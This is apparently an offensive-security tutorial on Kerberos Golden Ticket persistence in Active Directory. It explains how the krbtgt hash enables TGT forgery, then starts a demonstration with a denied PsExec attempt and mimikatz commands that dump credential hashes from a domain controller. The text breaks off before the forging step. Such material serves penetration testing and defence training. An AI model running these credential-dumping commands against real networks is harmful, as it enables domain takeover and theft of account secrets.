 ## Golden Ticket Persistence

Golden Tickets represent one of the most powerful persistence techniques in Active Directory environments. By obtaining the krbtgt account password hash, attackers can create self-made custom TGTs that provide unlimited domain access.

### Golden Ticket Fundamentals

**Kerberos TGT Encryption:**
- **KDC Secret Key:** TGTs encrypted with secret key known only to KDCs
- **krbtgt Account:** Domain user account whose password hash serves as the secret key
- **Ticket Forgery:** Possession of krbtgt hash enables custom TGT creation
- **Domain Trust:** Domain controllers trust correctly encrypted TGTs

**Golden Ticket vs Silver Ticket:**
- **Silver Tickets:** Forge TGS tickets for specific service access
- **Golden Tickets:** Provide unlimited access to entire domain resources
- **Scope Difference:** Service-specific vs domain-wide access
- **Power Level:** Golden tickets offer superior attack capabilities

### Golden Ticket Prerequisites and Advantages

**Attack Requirements:**
- **Domain Admin Access:** Requires Domain Admin group membership or DC compromise
- **krbtgt Hash Extraction:** Must obtain krbtgt account NTLM hash
- **Domain SID:** Requires domain Security Identifier for ticket creation

**Persistence Advantages:**
- **Password Stability:** krbtgt password not automatically changed
- **Longevity:** Hash remains valid for extended periods
- **Domain Functional Level:** Only changes during pre-2008 to newer upgrades
- **Legacy Environments:** Very old krbtgt hashes commonly found

### Demonstrating Golden Ticket Attack

**Initial Access Verification (Expected Failure):**
```cmd
# Attempt lateral movement without proper permissions
C:\Tools\SysinternalsSuite>PsExec64.exe \\DC1 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access DC1:
Access is denied.
```

**krbtgt Hash Extraction (Domain Controller Access Required):**
```mimikatz
# Enable debug privileges
privilege::debug

# Extract krbtgt password hash using LSA dump
lsadump::lsa /patch
```
